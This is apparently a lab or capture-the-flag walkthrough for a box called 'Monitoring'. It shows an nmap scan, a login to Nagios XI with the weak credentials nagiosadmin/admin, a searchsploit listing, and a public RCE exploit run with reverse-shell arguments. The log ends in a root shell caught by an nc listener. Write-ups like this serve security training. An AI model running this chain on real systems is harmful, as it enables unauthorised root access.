

---
tags:
  - linux
  - intermediate
---

# Monitoring

## Nmap scan

```shell
$ nmap -sV -sC -p- 192.168.160.136 --min-rate=10000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 13:04 EDT
Nmap scan report for 192.168.160.136
Host is up (0.064s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Nagios XI
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
5667/tcp open  tcpwrapped
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.72 seconds
```

## Enumeration



Do what the guy says, click the link below to get started using Nagios XI.


**Default credentials were searched** where the default username was `nagiosadmin`. However the password wasn't the default one. `admin` in the password field was tried and login was successful.


Looking for exploits for this version of Nagios XI

```shell
$ searchsploit nagios XI 5.6
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Nagios XI 5.5.6 - Magpie_debug.php Root Remote Code Execution (Metasp | linux/remote/47039.rb
Nagios XI 5.5.6 - Remote Code Execution / Privilege Escalation        | linux/webapps/46221.py
Nagios XI 5.6.1 - SQL injection                                       | php/webapps/46910.txt
Nagios XI 5.6.12 - 'export-rrd.php' Remote Code Execution             | php/webapps/48640.txt
Nagios XI 5.6.5 - Remote Code Execution / Root Privilege Escalation   | php/webapps/47299.php
Nagios Xi 5.6.6 - Authenticated Remote Code Execution (RCE)           | multiple/webapps/52138.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Cherry-picked the `exploit for version 5.6.5`.

```shell
$ sudo apt install php-curl php-dom -y
<...>
$ php exploit.php --host=monitoring --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.244 --reverseport=4444
[+] Grabbing NSP from: http://monitoring/nagiosxi/login.php
[+] Retrieved page contents from: http://monitoring/nagiosxi/login.php
[+] Extracted NSP - value: e15aedf763d8374ced29dcc4d67c979dc63108ea5897821dad596464656825c0
[+] Attempting to login...
[+] Authentication success
[+] Checking we have admin rights...
[+] Admin access confirmed
[+] Grabbing NSP from: http://monitoring/nagiosxi/admin/monitoringplugins.php
[+] Retrieved page contents from: http://monitoring/nagiosxi/admin/monitoringplugins.php
[+] Extracted NSP - value: e95462dd920b576d890b605db7470ec67d356697e7080779fd2985bc2b78c382
[+] Uploading payload...
[+] Payload uploaded
[+] Triggering payload: if successful, a reverse shell will spawn at 192.168.45.244:4444
```

```shell
$ nc -vlnp 4444
listening on [any] 4444 ...
connect to [192.168.45.244] from (UNKNOWN) [192.168.160.136] 36132
bash: cannot set terminal process group (954): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile# 
```

Pretty much ends here.
